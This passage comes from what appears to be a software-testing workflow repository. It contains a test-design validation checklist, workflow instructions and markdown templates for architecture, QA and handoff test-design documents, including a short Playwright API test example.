**When in system-level mode (PRD + ADR input), validate BOTH documents:**

### test-design-architecture.md

- [ ] **Purpose statement** at top (serves as contract with Architecture team)
- [ ] **Executive Summary** with scope, business context, architecture decisions, risk summary
- [ ] **Quick Guide** section with three tiers:
  - [ ] 🚨 BLOCKERS - Team Must Decide (pre-implementation critical path items)
  - [ ] ⚠️ HIGH PRIORITY - Team Should Validate (recommendations for approval)
  - [ ] 📋 INFO ONLY - Solutions Provided (no decisions needed)
- [ ] **Risk Assessment** section - **ACTIONABLE**
  - [ ] Total risks identified count
  - [ ] High-priority risks table (score ≥6) with all columns: Risk ID, Category, Description, Probability, Impact, Score, Mitigation, Owner, Timeline
  - [ ] Medium and low-priority risks tables
  - [ ] Risk category legend included
- [ ] **Testability Concerns and Architectural Gaps** section - **ACTIONABLE**
  - [ ] **Sub-section: 🚨 ACTIONABLE CONCERNS** at TOP
    - [ ] Blockers to Fast Feedback table (WHAT architecture must provide)
    - [ ] Architectural Improvements Needed (WHAT must be changed)
    - [ ] Each concern has: Owner, Timeline, Impact
  - [ ] **Sub-section: Testability Assessment Summary** at BOTTOM (FYI)
    - [ ] What Works Well (passing items)
    - [ ] Accepted Trade-offs (no action required)
    - [ ] This section only included if worth mentioning; otherwise omitted
- [ ] **Risk Mitigation Plans** for all high-priority risks (≥6)
  - [ ] Each plan has: Strategy (numbered steps), Owner, Timeline, Status, Verification
  - [ ] **Only Backend/DevOps/Arch/Security mitigations** (production code changes)
  - [ ] QA-owned mitigations belong in QA doc instead
- [ ] **Assumptions and Dependencies** section
  - [ ] **Architectural assumptions only** (SLO targets, replication lag, system design)
  - [ ] Assumptions list (numbered)
  - [ ] Dependencies list with required dates
  - [ ] Risks to plan with impact and contingency
  - [ ] QA execution assumptions belong in QA doc instead
- [ ] **NO test implementation code** (long examples belong in QA doc)
- [ ] **NO test scripts** (no Playwright test(...) blocks, no assertions, no test setup code)
- [ ] **NO NFR test examples** (NFR sections describe WHAT to test, not HOW to test)
- [ ] **NO test scenario checklists** (belong in QA doc)
- [ ] **NO bloat or repetition** (consolidate repeated notes, avoid over-explanation)
- [ ] **Cross-references to QA doc** where appropriate (instead of duplication)
- [ ] **RECIPE SECTIONS NOT IN ARCHITECTURE DOC:**
  - [ ] NO "Test Levels Strategy" section (unit/integration/E2E split belongs in QA doc only)
  - [ ] NO "NFR Testing Approach" section with detailed test procedures (belongs in QA doc only)
  - [ ] NO "Test Environment Requirements" section (belongs in QA doc only)
  - [ ] NO "Recommendations for pre-implementation" section with test framework setup (belongs in QA doc only)
  - [ ] NO "Quality Gate Criteria" section (pass rates, coverage targets belong in QA doc only)
  - [ ] NO "Tool Selection" section (Playwright, k6, etc. belongs in QA doc only)

### test-design-qa.md

**REQUIRED SECTIONS:**

- [ ] **Purpose statement** at top (test execution recipe)
- [ ] **Executive Summary** with risk summary and coverage summary
- [ ] **Dependencies & Test Blockers** section appears near the top (immediately after Executive Summary, or after Not in Scope)
  - [ ] Backend/Architecture dependencies listed (what QA needs from other teams)
  - [ ] QA infrastructure setup listed (factories, fixtures, environments)
  - [ ] Code example with playwright-utils if config.tea_use_playwright_utils is true
  - [ ] Test from '@seontechnologies/playwright-utils/api-request/fixtures'
  - [ ] Expect from '@playwright/test' (playwright-utils does not re-export expect)
  - [ ] Code examples include assertions (no unused imports)
- [ ] **Risk Assessment** section (brief, references Architecture doc)
  - [ ] High-priority risks table
  - [ ] Medium/low-priority risks table
  - [ ] Each risk shows "QA Test Coverage" column (how QA validates)
- [ ] **Test Coverage Plan** with P0/P1/P2/P3 sections
  - [ ] Priority sections have ONLY "Criteria" (no execution context)
  - [ ] Note at top: "P0/P1/P2/P3 = priority, NOT execution timing"
  - [ ] Test tables with columns: Test ID | Requirement | Test Level | Risk Link | Notes
- [ ] **Execution Strategy** section (organized by TOOL TYPE)
  - [ ] Every PR: Playwright tests (~10-15 min)
  - [ ] Nightly: k6 performance tests (~30-60 min)
  - [ ] Weekly: Chaos & long-running (~hours)
  - [ ] Philosophy: "Run everything in PRs unless expensive/long-running"
- [ ] **QA Effort Estimate** section (QA effort ONLY)
  - [ ] Interval-based estimates (e.g., "~1-2 weeks" NOT "36 hours")
  - [ ] NO DevOps, Backend, Data Eng, Finance effort
  - [ ] No per-milestone effort breakdowns in this section
- [ ] **Implementation Planning Handoff** section (optional)
  - [ ] Only include if implementation tasks must be scheduled
  - [ ] Owners assigned (QA/Dev/Platform/etc)
  - [ ] Target milestone may be noted, but avoid detailed per-milestone breakdowns
- [ ] **Appendix A: Code Examples & Tagging**
- [ ] **Appendix B: Knowledge Base References**

**DON'T INCLUDE (bloat):**

- [ ] ❌ NO Quick Reference section
- [ ] ❌ NO System Architecture Summary
- [ ] ❌ NO Test Environment Requirements as separate section (integrate into Dependencies)
- [ ] ❌ NO Testability Assessment section (covered in Dependencies)
- [ ] ❌ NO Test Levels Strategy section (obvious from test scenarios)
- [ ] ❌ NO NFR Readiness Summary
- [ ] ❌ NO Quality Gate Criteria section (teams decide for themselves)
- [ ] ❌ NO Follow-on Workflows section (BMAD commands self-explanatory)
- [ ] ❌ NO Approval section
- [ ] ❌ NO Infrastructure/DevOps/Finance effort tables (out of scope)
- [ ] ❌ NO detailed milestone-by-milestone breakdown tables (use Implementation Planning Handoff if needed)
- [ ] ❌ NO generic Next Steps section (use Implementation Planning Handoff if needed)

### Cross-Document Consistency

- [ ] Both documents reference same risks by ID (R-001, R-002, etc.)
- [ ] Both documents use consistent priority levels (P0, P1, P2, P3)
- [ ] Both documents reference same pre-implementation blockers
- [ ] No duplicate content (cross-reference instead)
- [ ] Dates and authors match across documents
- [ ] ADR and PRD references consistent

### Document Quality (Anti-Bloat Check)

**CRITICAL: Check for bloat and repetition across BOTH documents**

- [ ] **No repeated notes 10+ times** (e.g., "Timing is pessimistic until R-005 fixed" on every section)
- [ ] **Repeated information consolidated** (write once at top, reference briefly if needed)
- [ ] **No excessive detail** that doesn't add value (obvious concepts, redundant examples)
- [ ] **Focus on unique/critical info** (only document what's different from standard practice)
- [ ] **Architecture doc**: Concerns-focused, NOT implementation-focused
- [ ] **QA doc**: Implementation-focused, NOT theory-focused
- [ ] **Clear separation**: Architecture = WHAT and WHY, QA = HOW
- [ ] **Professional tone**: No AI slop markers
  - [ ] Avoid excessive ✅/❌ emojis (use sparingly, only when adding clarity)
  - [ ] Avoid "absolutely", "excellent", "fantastic", overly enthusiastic language
  - [ ] Write professionally and directly
- [ ] **Architecture doc length**: Target ~150-200 lines max (focus on actionable concerns only)
- [ ] **QA doc length**: Keep concise, remove bloat sections

### Architecture Doc Structure (Actionable-First Principle)

**CRITICAL: Validate structure follows actionable-first, FYI-last principle**

- [ ] **Actionable sections at TOP:**
  - [ ] Quick Guide (🚨 BLOCKERS first, then ⚠️ HIGH PRIORITY, then 📋 INFO ONLY last)
  - [ ] Risk Assessment (high-priority risks ≥6 at top)
  - [ ] Testability Concerns (concerns/blockers at top, passing items at bottom)
  - [ ] Risk Mitigation Plans (for high-priority risks ≥6)
- [ ] **FYI sections at BOTTOM:**
  - [ ] Testability Assessment Summary (what works well - only if worth mentioning)
  - [ ] Assumptions and Dependencies
- [ ] **ASRs categorized correctly:**
  - [ ] Actionable ASRs included in 🚨 or ⚠️ sections
  - [ ] FYI ASRs included in 📋 section or omitted if obvious

## BMAD Handoff Validation (System-Level Mode Only)

- [ ] Handoff document generated at `{test_artifacts}/test-design/{project_name}-handoff.md`
- [ ] TEA Artifacts Inventory table populated with actual paths
- [ ] Epic-Level Integration Guidance populated with P0/P1 risks
- [ ] Story-Level Integration Guidance populated with critical test scenarios
- [ ] Risk-to-Story Mapping table populated from risk register
- [ ] Recommended workflow sequence is accurate
- [ ] Phase transition quality gates are defined

## Completion Criteria

**All must be true:**

- [ ] All prerequisites met
- [ ] All process steps completed
- [ ] All output validations passed
- [ ] All quality checks passed
- [ ] All integration points verified
- [ ] Output file(s) complete and well-formatted
- [ ] **System-level mode:** Both documents validated (if applicable)
- [ ] **System-level mode:** Handoff document validated (if applicable)
- [ ] **Epic-level mode:** Single document validated (if applicable)
- [ ] Team review scheduled (if required)

## Post-Workflow Actions

**User must complete:**

1. [ ] Review risk assessment with team
2. [ ] Prioritize mitigation for high-priority risks (score ≥6)
3. [ ] Allocate resources per estimates
4. [ ] Run `*atdd` workflow to generate P0 tests (separate workflow; not auto-run)
5. [ ] Set up test data factories and fixtures
6. [ ] Schedule team review of test design document

**Recommended next workflows:**

1. [ ] Run `atdd` workflow for P0 test generation
2. [ ] Run `framework` workflow if not already done
3. [ ] Run `ci` workflow to configure pipeline stages

## Rollback Procedure

If workflow fails:

1. [ ] Delete output file
2. [ ] Review error logs
3. [ ] Fix missing context (PRD, architecture docs)
4. [ ] Clarify ambiguous requirements
5. [ ] Retry workflow

## Notes

### Common Issues

**Issue**: Too many P0 tests

- **Solution**: Apply strict P0 criteria - must block core AND high risk AND no workaround

**Issue**: Risk scores all high

- **Solution**: Differentiate between high-impact (3) and degraded (2) impacts

**Issue**: Duplicate coverage across levels

- **Solution**: Use test pyramid - E2E for critical paths only

**Issue**: Resource estimates too high or too precise

- **Solution**:
  - Invest in fixtures/factories to reduce per-test setup time
  - Use interval ranges (e.g., "~55-110 hours") instead of exact numbers (e.g., "81 hours")
  - Widen intervals if high uncertainty exists

**Issue**: Execution order section too complex or redundant

- **Solution**:
  - Default: Run everything in PRs (<15 min with Playwright parallelization)
  - Only defer to nightly/weekly if expensive (k6, chaos, 4+ hour tests)
  - Don't create smoke/P0/P1/P2/P3 tier structure
  - Don't re-list all tests (already in coverage plan)

### Best Practices

- Base risk assessment on evidence, not assumptions
- High-priority risks (≥6) require immediate mitigation
- P0 tests should cover <10% of total scenarios
- Avoid testing same behavior at multiple levels
- **Use interval-based estimates** (e.g., "~25-40 hours") instead of exact numbers to avoid false precision and provide flexibility
- **Keep execution strategy simple**: Default to "run everything in PRs" (<15 min with Playwright), only defer if expensive/long-running
- **Avoid execution order redundancy**: Don't create complex tier structures or re-list tests

---

**Checklist Complete**: Sign off when all items validated.

**Completed by:** {name}
**Date:** {date}
**Epic:** {epic title}
**Notes:** {additional notes}
```

## File: `src/workflows/testarch/bmad-testarch-test-design/instructions.md`
```markdown
<!-- Powered by BMAD-CORE™ -->

# Test Design and Risk Assessment

**Workflow ID**: `_bmad/tea/testarch/bmad-testarch-test-design`
**Version**: 5.0 (Step-File Architecture)

---

## Overview

Plans comprehensive test coverage strategy with risk assessment, priority classification, and execution ordering. This workflow operates in **two modes**:

- **System-Level Mode (Phase 3)**: Testability review of architecture before solutioning gate check
- **Epic-Level Mode (Phase 4)**: Per-epic test planning with risk assessment

The workflow auto-detects which mode to use based on project phase and user intent.

---

## WORKFLOW ARCHITECTURE

This workflow uses **step-file architecture** for disciplined execution:

### Core Principles

- **Micro-file Design**: Each step is a self-contained instruction file
- **Just-In-Time Loading**: Only the current step file is in memory
- **Sequential Enforcement**: Execute steps in order without skipping
- **State Tracking**: Write outputs only when instructed, then proceed

### Step Processing Rules (Non-Negotiable)

1. **READ COMPLETELY**: Read the entire step file before taking any action
2. **FOLLOW SEQUENCE**: Execute all numbered sections in order
3. **WAIT FOR INPUT**: Halt when user input is required
4. **LOAD NEXT**: Only load the next step file when directed

---

## INITIALIZATION SEQUENCE

### 1. Configuration Loading

From `workflow.yaml`, resolve:

- `config_source`, `test_artifacts`, `user_name`, `communication_language`, `document_output_language`, `date`

### 2. First Step

Load, read completely, and execute:
`./steps-c/step-01-detect-mode.md`

### 3. Resume Support

If the user selects **Resume** mode, load, read completely, and execute:
`./steps-c/step-01b-resume.md`

This checks the output document for progress tracking frontmatter and routes to the next incomplete step.

---

## OUTPUT GENERATION GUIDANCE

When populating templates in step 5, apply the following guidance for these sections:

### Not in Scope

- Identify components, third-party services, or subsystems NOT covered by this test plan
- For each excluded item, provide reasoning (why excluded) and mitigation (how risk is addressed elsewhere)
- Common exclusions: external vendor APIs tested by upstream teams, legacy modules outside the current phase scope, infrastructure already covered by platform team monitoring

### Entry and Exit Criteria

- **Entry criteria**: Derive from Dependencies and Test Blockers -- what must be resolved before QA can start testing
- **Exit criteria**: Derive from Quality Gate Criteria -- what constitutes "done" for the testing phase
- Include project-specific criteria based on context (e.g., "feature flag enabled in staging", "seed data loaded", "pre-implementation blockers resolved")

### Project Team (Optional)

- Include only if roles/names are known or responsibility mapping is needed
- Extract names and roles from PRD, ADR, or project context if available
- If names are unknown, either omit or use role placeholders for drafts
- Map testing responsibilities to each role (e.g., who owns E2E tests, who signs off)

### Tooling and Access (System-Level QA Document Only)

- Include only if non-standard tools or access requests are required
- List notable tools/services needed for test execution and any access approvals
- Avoid assuming specific vendors unless the project context names them
- Mark each item's status as Ready or Pending based on available information
- This section applies only to `test-design-qa-template.md` output

### Implementation Planning Handoff (Optional)

- Include only if test design produces implementation tasks that must be scheduled
- Derive items from Dependencies & Test Blockers, tooling/access needs, and QA infra setup
- If no dedicated QA, assign ownership to Dev/Platform as appropriate
- Keep the list short; avoid per-milestone breakdown tables

### Interworking & Regression

- Identify services and components that interact with or are affected by the feature under test
- For each, define what existing regression tests must pass before release
- Note any cross-team coordination needed for regression validation (e.g., shared staging environments, upstream API contracts)
```

## File: `src/workflows/testarch/bmad-testarch-test-design/test-design-architecture-template.md`
```markdown
---
stepsCompleted: []
lastStep: ''
lastSaved: ''
workflowType: 'testarch-test-design'
inputDocuments: []
---

# Test Design for Architecture: {Feature Name}

**Purpose:** Architectural concerns, testability gaps, and NFR requirements for review by Architecture/Dev teams. Serves as a contract between QA and Engineering on what must be addressed before test development begins.

**Date:** {date}
**Author:** {author}
**Status:** Architecture Review Pending
**Project:** {project_name}
**PRD Reference:** {prd_link}
**ADR Reference:** {adr_link}

---

## Executive Summary

**Scope:** {Brief description of feature scope}

**Business Context** (from PRD):

- **Revenue/Impact:** {Business metrics if applicable}
- **Problem:** {Problem being solved}
- **GA Launch:** {Target date or timeline}

**Architecture** (from ADR {adr_number}):

- **Key Decision 1:** {e.g., OAuth 2.1 authentication}
- **Key Decision 2:** {e.g., Centralized MCP Server pattern}
- **Key Decision 3:** {e.g., Stack: TypeScript, SDK v1.x}

**Expected Scale** (from ADR):

- {RPS, volume, users, etc.}

**Risk Summary:**

- **Total risks**: {N}
- **High-priority (≥6)**: {N} risks requiring immediate mitigation
- **Test effort**: ~{N} tests (~{X} weeks for 1 QA, ~{Y} weeks for 2 QAs)

---

## Quick Guide

### 🚨 BLOCKERS - Team Must Decide (Can't Proceed Without)

**Pre-Implementation Critical Path** - These MUST be completed before QA can write integration tests:

1. **{Blocker ID}: {Blocker Title}** - {What architecture must provide} (recommended owner: {Team/Role})
2. **{Blocker ID}: {Blocker Title}** - {What architecture must provide} (recommended owner: {Team/Role})
3. **{Blocker ID}: {Blocker Title}** - {What architecture must provide} (recommended owner: {Team/Role})

**What we need from team:** Complete these {N} items pre-implementation or test development is blocked.

---

### ⚠️ HIGH PRIORITY - Team Should Validate (We Provide Recommendation, You Approve)

1. **{Risk ID}: {Title}** - {Recommendation + who should approve} (implementation phase)
2. **{Risk ID}: {Title}** - {Recommendation + who should approve} (implementation phase)
3. **{Risk ID}: {Title}** - {Recommendation + who should approve} (implementation phase)

**What we need from team:** Review recommendations and approve (or suggest changes).

---

### 📋 INFO ONLY - Solutions Provided (Review, No Decisions Needed)

1. **Test strategy**: {Test level split} ({Rationale})
2. **Tooling**: {Test frameworks and utilities}
3. **Tiered CI/CD**: {Execution tiers with timing}
4. **Coverage**: ~{N} test scenarios prioritized P0-P3 with risk-based classification
5. **Quality gates**: {Pass criteria}

**What we need from team:** Just review and acknowledge (we already have the solution).

---

## For Architects and Devs - Open Topics 👷

### Risk Assessment

**Total risks identified**: {N} ({X} high-priority score ≥6, {Y} medium, {Z} low)

#### High-Priority Risks (Score ≥6) - IMMEDIATE ATTENTION

| Risk ID    | Category  | Description   | Probability | Impact | Score       | Mitigation            | Owner   | Timeline |
| ---------- | --------- | ------------- | ----------- | ------ | ----------- | --------------------- | ------- | -------- |
| **{R-ID}** | **{CAT}** | {Description} | {1-3}       | {1-3}  | **{Score}** | {Mitigation strategy} | {Owner} | {Date}   |

#### Medium-Priority Risks (Score 3-5)

| Risk ID | Category | Description   | Probability | Impact | Score   | Mitigation   | Owner   |
| ------- | -------- | ------------- | ----------- | ------ | ------- | ------------ | ------- |
| {R-ID}  | {CAT}    | {Description} | {1-3}       | {1-3}  | {Score} | {Mitigation} | {Owner} |

#### Low-Priority Risks (Score 1-2)

| Risk ID | Category | Description   | Probability | Impact | Score   | Action  |
| ------- | -------- | ------------- | ----------- | ------ | ------- | ------- |
| {R-ID}  | {CAT}    | {Description} | {1-3}       | {1-3}  | {Score} | Monitor |

#### Risk Category Legend

- **TECH**: Technical/Architecture (flaws, integration, scalability)
- **SEC**: Security (access controls, auth, data exposure)
- **PERF**: Performance (SLA violations, degradation, resource limits)
- **DATA**: Data Integrity (loss, corruption, inconsistency)
- **BUS**: Business Impact (UX harm, logic errors, revenue)
- **OPS**: Operations (deployment, config, monitoring)

---

### Testability Concerns and Architectural Gaps

**🚨 ACTIONABLE CONCERNS - Architecture Team Must Address**

{If system has critical testability concerns, list them here. If architecture supports testing well, state "No critical testability concerns identified" and skip to Testability Assessment Summary}

#### 1. Blockers to Fast Feedback (WHAT WE NEED FROM ARCHITECTURE)

| Concern            | Impact              | What Architecture Must Provide         | Owner  | Timeline    |
| ------------------ | ------------------- | -------------------------------------- | ------ | ----------- |
| **{Concern name}** | {Impact on testing} | {Specific architectural change needed} | {Team} | {Milestone} |

**Example:**

- **No API for test data seeding** → Cannot parallelize tests → Provide POST /test/seed endpoint (Backend, pre-implementation)

#### 2. Architectural Improvements Needed (WHAT SHOULD BE CHANGED)

{List specific improvements that would make the system more testable}

1. **{Improvement name}**
   - **Current problem**: {What's wrong}
   - **Required change**: {What architecture must do}
   - **Impact if not fixed**: {Consequences}
   - **Owner**: {Team}
   - **Timeline**: {Milestone}

---

### Testability Assessment Summary

**📊 CURRENT STATE - FYI**

{Only include this section if there are passing items worth mentioning. Otherwise omit.}

#### What Works Well

- ✅ {Passing item 1} (e.g., "API-first design supports parallel test execution")
- ✅ {Passing item 2} (e.g., "Feature flags enable test isolation")
- ✅ {Passing item 3}

#### Accepted Trade-offs (No Action Required)

For {Feature} Phase 1, the following trade-offs are acceptable:

- **{Trade-off 1}** - {Why acceptable for now}
- **{Trade-off 2}** - {Why acceptable for now}

{This is technical debt OR acceptable for Phase 1} that {should be revisited post-GA OR maintained as-is}

---

### Risk Mitigation Plans (High-Priority Risks ≥6)

**Purpose**: Detailed mitigation strategies for all {N} high-priority risks (score ≥6). These risks MUST be addressed before {GA launch date or milestone}.

#### {R-ID}: {Risk Description} (Score: {Score}) - {CRITICALITY LEVEL}

**Mitigation Strategy:**

1. {Step 1}
2. {Step 2}
3. {Step 3}

**Owner:** {Owner}
**Timeline:** {Milestone or date}
**Status:** Planned / In Progress / Complete
**Verification:** {How to verify mitigation is effective}

---

{Repeat for all high-priority risks}

---

### Assumptions and Dependencies

#### Assumptions

1. {Assumption about architecture or requirements}
2. {Assumption about team or timeline}
3. {Assumption about scope or constraints}

#### Dependencies

1. {Dependency} - Required by {date/milestone}
2. {Dependency} - Required by {date/milestone}

#### Risks to Plan

- **Risk**: {Risk to the test plan itself}
  - **Impact**: {How it affects testing}
  - **Contingency**: {Backup plan}

---

**End of Architecture Document**

**Next Steps for Architecture Team:**

1. Review Quick Guide (🚨/⚠️/📋) and prioritize blockers
2. Assign owners and timelines for high-priority risks (≥6)
3. Validate assumptions and dependencies
4. Provide feedback to QA on testability gaps

**Next Steps for QA Team:**

1. Wait for pre-implementation blockers to be resolved
2. Refer to companion QA doc (test-design-qa.md) for test scenarios
3. Begin test infrastructure setup (factories, fixtures, environments)
```

## File: `src/workflows/testarch/bmad-testarch-test-design/test-design-handoff-template.md`
```markdown
---
title: 'TEA Test Design → BMAD Handoff Document'
version: '1.0'
workflowType: 'testarch-test-design-handoff'
inputDocuments: []
sourceWorkflow: 'testarch-test-design'
generatedBy: 'TEA Master Test Architect'
generatedAt: '{timestamp}'
projectName: '{project_name}'
---

# TEA → BMAD Integration Handoff

## Purpose

This document bridges TEA's test design outputs with BMAD's epic/story decomposition workflow (`create-epics-and-stories`). It provides structured integration guidance so that quality requirements, risk assessments, and test strategies flow into implementation planning.

## TEA Artifacts Inventory

| Artifact             | Path                      | BMAD Integration Point                               |
| -------------------- | ------------------------- | ---------------------------------------------------- |
| Test Design Document | `{test_design_path}`      | Epic quality requirements, story acceptance criteria |
| Risk Assessment      | (embedded in test design) | Epic risk classification, story priority             |
| Coverage Strategy    | (embedded in test design) | Story test requirements                              |

## Epic-Level Integration Guidance

### Risk References

<!-- TEA will populate: P0/P1 risks that should appear as epic-level quality gates -->

### Quality Gates

<!-- TEA will populate: recommended quality gates per epic based on risk assessment -->

## Story-Level Integration Guidance

### P0/P1 Test Scenarios → Story Acceptance Criteria

<!-- TEA will populate: critical test scenarios that MUST be acceptance criteria -->

### Data-TestId Requirements

<!-- TEA will populate: recommended data-testid attributes for testability -->

## Risk-to-Story Mapping

| Risk ID | Category | P×I | Recommended Story/Epic | Test Level |
| ------- | -------- | --- | ---------------------- | ---------- |

<!-- TEA will populate from risk assessment -->

## Recommended BMAD → TEA Workflow Sequence

1. **TEA Test Design** (`TD`) → produces this handoff document
2. **BMAD Create Epics & Stories** → consumes this handoff, embeds quality requirements
3. **TEA ATDD** (`AT`) → generates acceptance tests per story
4. **BMAD Implementation** → developers implement with test-first guidance
5. **TEA Automate** (`TA`) → generates full test suite
6. **TEA Trace** (`TR`) → validates coverage completeness

## Phase Transition Quality Gates

| From Phase          | To Phase            | Gate Criteria                                          |
| ------------------- | ------------------- | ------------------------------------------------------ |
| Test Design         | Epic/Story Creation | All P0 risks have mitigation strategy                  |
| Epic/Story Creation | ATDD                | Stories have acceptance criteria from test design      |
| ATDD                | Implementation      | Failing acceptance tests exist for all P0/P1 scenarios |
| Implementation      | Test Automation     | All acceptance tests pass                              |
| Test Automation     | Release             | Trace matrix shows ≥80% coverage of P0/P1 requirements |
```

## File: `src/workflows/testarch/bmad-testarch-test-design/test-design-qa-template.md`
```markdown
---
stepsCompleted: []
lastStep: ''
lastSaved: ''
workflowType: 'testarch-test-design'
inputDocuments: []
---

# Test Design for QA: {Feature Name}

**Purpose:** Test execution recipe for QA team. Defines what to test, how to test it, and what QA needs from other teams.

**Date:** {date}
**Author:** {author}
**Status:** Draft
**Project:** {project_name}

**Related:** See Architecture doc (test-design-architecture.md) for testability concerns and architectural blockers.

---

## Executive Summary

**Scope:** {Brief description of testing scope}

**Risk Summary:**

- Total Risks: {N} ({X} high-priority score ≥6, {Y} medium, {Z} low)
- Critical Categories: {Categories with most high-priority risks}

**Coverage Summary:**

- P0 tests: ~{N} (critical paths, security)
- P1 tests: ~{N} (important features, integration)
- P2 tests: ~{N} (edge cases, regression)
- P3 tests: ~{N} (exploratory, benchmarks)
- **Total**: ~{N} tests (~{X}-{Y} weeks with 1 QA)

---

## Not in Scope

**Components or systems explicitly excluded from this test plan:**

| Item       | Reasoning                   | Mitigation                                                                      |
| ---------- | --------------------------- | ------------------------------------------------------------------------------- |
| **{Item}** | {Why excluded from testing} | {How risk is mitigated, e.g., "validated manually", "covered by upstream team"} |

**Note:** Items listed here have been reviewed and accepted as out-of-scope by QA, Dev, and PM.

---

## Dependencies & Test Blockers

**CRITICAL:** QA cannot proceed without these items from other teams.

### Backend/Architecture Dependencies (Pre-Implementation)

**Source:** See Architecture doc "Quick Guide" for detailed mitigation plans

1. **{Dependency 1}** - {Team} - {Timeline}
   - {What QA needs}
   - {Why it blocks testing}

2. **{Dependency 2}** - {Team} - {Timeline}
   - {What QA needs}
   - {Why it blocks testing}

### QA Infrastructure Setup (Pre-Implementation)

1. **Test Data Factories** - QA
   - {Entity} factory with faker-based randomization
   - Auto-cleanup fixtures for parallel safety

2. **Test Environments** - QA
   - Local: {Setup details}
   - CI/CD: {Setup details}
   - Staging: {Setup details}

**Example factory pattern:**

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { expect } from '@playwright/test';
import { faker } from '@faker-js/faker';

test('example test @p0', async ({ apiRequest }) => {
  const testData = {
    id: `test-${faker.string.uuid()}`,
    email: faker.internet.email(),
  };

  const { status } = await apiRequest({
    method: 'POST',
    path: '/api/resource',
    body: testData,
  });

  expect(status).toBe(201);
});
```

---

## Risk Assessment

**Note:** Full risk details in Architecture doc. This section summarizes risks relevant to QA test planning.

### High-Priority Risks (Score ≥6)

| Risk ID    | Category | Description         | Score       | QA Test Coverage             |
| ---------- | -------- | ------------------- | ----------- | ---------------------------- |
| **{R-ID}** | {CAT}    | {Brief description} | **{Score}** | {How QA validates this risk} |

### Medium/Low-Priority Risks

| Risk ID | Category | Description         | Score   | QA Test Coverage             |
| ------- | -------- | ------------------- | ------- | ---------------------------- |
| {R-ID}  | {CAT}    | {Brief description} | {Score} | {How QA validates this risk} |

---

## Entry Criteria

**QA testing cannot begin until ALL of the following are met:**

- [ ] All requirements and assumptions agreed upon by QA, Dev, PM
- [ ] Test environments provisioned and accessible
- [ ] Test data factories ready or seed data available
- [ ] Pre-implementation blockers resolved (see Dependencies section)
- [ ] Feature deployed to test environment
- [ ] {Additional project-specific entry criteria}

## Exit Criteria

**Testing phase is complete when ALL of the following are met:**

- [ ] All P0 tests passing
- [ ] All P1 tests passing (or failures triaged and accepted)
- [ ] No open high-priority / high-severity bugs
- [ ] Test coverage agreed as sufficient by QA Lead and Dev Lead
- [ ] Performance baselines met (if applicable)
- [ ] {Additional project-specific exit criteria}

---

## Project Team (Optional)

**Include only if roles/names are known or responsibility mapping is needed; otherwise omit.**

| Name   | Role      | Testing Responsibilities                                      |
| ------ | --------- | ------------------------------------------------------------- |
| {Name} | QA Lead   | Test strategy, E2E/API test implementation, test review       |
| {Name} | Dev Lead  | Unit tests, integration test support, testability hooks       |
| {Name} | PM        | Requirements clarification, acceptance criteria, UAT sign-off |
| {Name} | Architect | Testability review, NFR guidance, environment provisioning    |

---

## Test Coverage Plan

**IMPORTANT:** P0/P1/P2/P3 = **priority and risk level** (what to focus on if time-constrained), NOT execution timing. See "Execution Strategy" for when tests run.

### P0 (Critical)

**Criteria:** Blocks core functionality + High risk (≥6) + No workaround + Affects majority of users

| Test ID    | Requirement   | Test Level | Risk Link | Notes   |
| ---------- | ------------- | ---------- | --------- | ------- |
| **P0-001** | {Requirement} | {Level}    | {R-ID}    | {Notes} |
| **P0-002** | {Requirement} | {Level}    | {R-ID}    | {Notes} |

**Total P0:** ~{N} tests

---

### P1 (High)

**Criteria:** Important features + Medium risk (3-4) + Common workflows + Workaround exists but difficult

| Test ID    | Requirement   | Test Level | Risk Link | Notes   |
| ---------- | ------------- | ---------- | --------- | ------- |
| **P1-001** | {Requirement} | {Level}    | {R-ID}    | {Notes} |
| **P1-002** | {Requirement} | {Level}    | {R-ID}    | {Notes} |

**Total P1:** ~{N} tests

---

### P2 (Medium)

**Criteria:** Secondary features + Low risk (1-2) + Edge cases + Regression prevention

| Test ID    | Requirement   | Test Level | Risk Link | Notes   |
| ---------- | ------------- | ---------- | --------- | ------- |
| **P2-001** | {Requirement} | {Level}    | {R-ID}    | {Notes} |

**Total P2:** ~{N} tests

---

### P3 (Low)

**Criteria:** Nice-to-have + Exploratory + Performance benchmarks + Documentation validation

| Test ID    | Requirement   | Test Level | Notes   |
| ---------- | ------------- | ---------- | ------- |
| **P3-001** | {Requirement} | {Level}    | {Notes} |

**Total P3:** ~{N} tests

---

## Execution Strategy

**Philosophy:** Run everything in PRs unless there's significant infrastructure overhead. Playwright with parallelization is extremely fast (100s of tests in ~10-15 min).

**Organized by TOOL TYPE:**

### Every PR: Playwright Tests (~10-15 min)

**All functional tests** (from any priority level):

- All E2E, API, integration, unit tests using Playwright
- Parallelized across {N} shards
- Total: ~{N} Playwright tests (includes P0, P1, P2, P3)

**Why run in PRs:** Fast feedback, no expensive infrastructure

### Nightly: k6 Performance Tests (~30-60 min)

**All performance tests** (from any priority level):

- Load, stress, spike, endurance tests
- Total: ~{N} k6 tests (may include P0, P1, P2)

**Why defer to nightly:** Expensive infrastructure (k6 Cloud), long-running (10-40 min per test)

### Weekly: Chaos & Long-Running (~hours)

**Special infrastructure tests** (from any priority level):

- Multi-region failover (requires AWS Fault Injection Simulator)
- Disaster recovery (backup restore, 4+ hours)
- Endurance tests (4+ hours runtime)

**Why defer to weekly:** Very expensive infrastructure, very long-running, infrequent validation sufficient

**Manual tests** (excluded from automation):

- DevOps validation (deployment, monitoring)
- Finance validation (cost alerts)
- Documentation validation

---

## QA Effort Estimate

**QA test development effort only** (excludes DevOps, Backend, Data Eng, Finance work):

| Priority  | Count | Effort Range       | Notes                                             |
| --------- | ----- | ------------------ | ------------------------------------------------- |
| P0        | ~{N}  | ~{X}-{Y} weeks     | Complex setup (security, performance, multi-step) |
| P1        | ~{N}  | ~{X}-{Y} weeks     | Standard coverage (integration, API tests)        |
| P2        | ~{N}  | ~{X}-{Y} days      | Edge cases, simple validation                     |
| P3        | ~{N}  | ~{X}-{Y} days      | Exploratory, benchmarks                           |
| **Total** | ~{N}  | **~{X}-{Y} weeks** | **1 QA engineer, full-time**                      |

**Assumptions:**

- Includes test design, implementation, debugging, CI integration
- Excludes ongoing maintenance (~10% effort)
- Assumes test infrastructure (factories, fixtures) ready

**Dependencies from other teams:**

- See "Dependencies & Test Blockers" section for what QA needs from Backend, DevOps, Data Eng

---

## Implementation Planning Handoff (Optional)

**Include only if this test design produces implementation tasks that must be scheduled.**

**Use this to inform implementation planning; if no dedicated QA, assign to Dev owners.**

